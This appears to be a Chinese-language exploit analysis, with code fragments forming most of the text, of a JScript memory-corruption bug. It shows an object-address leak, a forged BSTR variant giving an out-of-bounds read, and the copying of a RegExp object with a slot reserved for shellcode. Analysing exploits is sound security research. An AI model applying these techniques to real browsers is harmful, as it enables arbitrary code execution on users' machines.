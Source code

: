 ```
 
var leakIndex = -1;
for(var i = 0; i < refsLimit; i++)
    try{
        if((typeof nrefs[i]) === "number"){
            leakIndex = i;
            break;
        }
    }catch(e){}
 
if(leakIndex == -1)
    throw new Error("Could not find RegExp address.");
else{}

```

得到 RegExp 对象指针后，借助 makeVariant 函数将 RegExpObj+4 的地方封装为一个字符串 variant(type=0x82) 的指针部分，并再次借助漏洞将其布局到内存：

```
var leakRegExpObj = nrefs[leakIndex] & 0xFFFFFFFF;
var extendPropertyName = "\uFFFF\uFFFF\uFFFF\uFFFF\uFFFF\uFFFF" + makeVariant(0x0082, leakRegExpObj + 4); // string 4 bytes ahead, leakRegExpObj is previous fake VAR of type number (0x3)
 
for(var i = refsLimit; i >= leakIndex; i--)
    nrefs[i] = null;
 
for(var i = 0; i < 0x1000; i++)
    propHolders[i][extendPropertyName] = 1; // store the property name
 
while(--leakIndex >= 0)
    try{
        if((typeof nrefs[leakIndex]) === "string" && nrefs[leakIndex].length > 0x1000)
            break;
        else
            nrefs[leakIndex] = null;
    }
    catch(e){}
 
if(leakIndex == -1)
    throw new Error("Could not find RegExp leak string.");
else{}

```

搜索到对应的字符串 variant 后，此时的 variant.obj_ptr 指向一个伪造的 BSTR 对象的字符串部分，这个 BSTR 对象的 length 部分为 RegExpObj 的虚表，是一个非常大的值；str 部分为 RegExpObj+0x04。到这里已经具备了越界读取能力，随后借助这一越界读取能力读取整个 RegExpObj 的内容并保存到 fakeRegExpCharCodes 数组，并在数组的最后为 shellcode 预留了位置 (0xCCCC)：

```
var bstrVal = 8;
var sizeof_RegExpObj = 0xC0;
var m_pvarMaster = 0x10;
var m_varCode = 0x38;
var m_varSrc = 0x48;
 
// ... code skipped ...
 
// here nrefs[leakIndex].length value is faulty and points to a large number
// nrefs[leakIndex].charCodeAt(i) can be used to read arbitrary bytes.
var fakeRegExpCharCodes = new Array();
fakeRegExpCharCodes.push((nrefs[leakIndex].length * 2) & 0xFFFF);
fakeRegExpCharCodes.push(((nrefs[leakIndex].length * 2) >> 16) & 0xFFFF);
 
for(var i = 0; i < sizeof_RegExpObj / sizeof_WCHAR; i++)
    fakeRegExpCharCodes.push(nrefs[leakIndex].charCodeAt(i));
```